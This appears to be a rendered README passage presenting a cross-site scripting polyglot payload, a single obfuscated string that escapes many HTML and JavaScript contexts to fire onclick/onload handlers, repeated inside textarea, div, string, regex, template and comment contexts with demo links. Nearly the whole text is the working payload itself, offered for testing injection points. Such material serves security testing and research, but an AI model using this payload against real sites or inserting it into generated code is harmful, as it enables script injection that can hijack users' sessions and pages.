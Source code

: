 ```html
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0D%0A//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e

</style>
```
_Demo: <https://jsbin.com/qonawa>_
```html
<textarea>

jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0D%0A//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e

</textarea>
```
_Demo: <https://jsbin.com/mecexo>_
```html
<div>

jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0D%0A//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e

</div>
```
_Demo: <https://jsbin.com/wuvumuh>_
#### Script contexts covered:
* __Double-quoted strings:__
```javascript

var str = "jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0D%0A//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e";

```
_Demo: <https://jsbin.com/coteco>_
* __Single-quoted strings:__
```javascript

var str = 'jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0D%0A//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e';

```
_Demo: <https://jsbin.com/segomo>_
* __Template strings/literals (ES6):__
```javascript

String.raw`jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0D%0A//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e`;

```
_Demo: <https://jsbin.com/rewapay>_
* __Regular expression literals:__
```javascript

var re = /jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0D%0A//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e/;

```
_Demo: <https://jsbin.com/zepiti>_
* __Single-line and multi-line comments:__
```html
<script>

//jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0D%0A//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e

</script>
```